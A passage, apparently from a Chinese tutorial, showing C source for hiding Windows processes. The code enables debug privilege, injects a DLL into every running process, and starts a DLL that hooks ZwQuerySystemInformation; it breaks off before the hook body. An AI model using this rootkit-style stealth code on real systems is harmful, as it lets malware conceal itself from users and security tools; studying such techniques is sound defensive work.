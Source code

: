 ```
		else
		{
			EjexctDll(dwPID, szDllPath);
		}
	} while (Process32Next(hSnapShot, &pe));

	CloseHandle(hSnapShot);
	return TRUE;
}

int _tmain(int argc, _TCHAR *argv[])
{
	if (argc != 3)
	{
		return 0;
	}
	else
	{
		EnableDebugPrivilege();
		if (!_tcsicmp(argv[1], L"-hide"))
		{
			//printf("yes");
			InjectAllProcess(INJECTION_MODE, argv[2]);
		}
		else if (!_tcsicmp(argv[1], L"-show"))
		{
			InjectAllProcess(0, argv[2]);
		}
	}
	return 0;
	}
```

### 钩取dll的代码

```
#include <Windows.h>
#include <winternl.h>
#include <stdio.h>

//typedef LONG NTSTATUS;
//typedef struct _LSA_UNICODE_STRING {
//	USHORT Length;
//	USHORT MaximumLength;
//	PWSTR Buffer;
//}UNICODE_STRING, * PUNICODE_STRING;
//typedef struct _SYSTEM_PROCESS_INFORMATION {
//	ULONG NextEntryOffset;        //下一个结构的偏移
//	ULONG NumberOfThreads;
//	BYTE Reserved1[48];
//	UNICODE_STRING ProcessName;   //进程名字
//	ULONG BasePriority;
//	HANDLE UniqueProcessId;       //进程Pid
//	PVOID Reserved3;
//	ULONG HandleCount;
//	BYTE Reserved4[4];
//	PVOID Reserved5[11];
//	SIZE_T PeakPagefileUsage;
//	SIZE_T PrivatePageCount;
//	LARGE_INTEGER Reserved6[6];
//} SYSTEM_PROCESS_INFORMATION, * PSYSTEM_PROCESS_INFORMATION;
typedef NTSTATUS
(WINAPI* ZwQ)(	SYSTEM_INFORMATION_CLASS SystemInformationClass,
```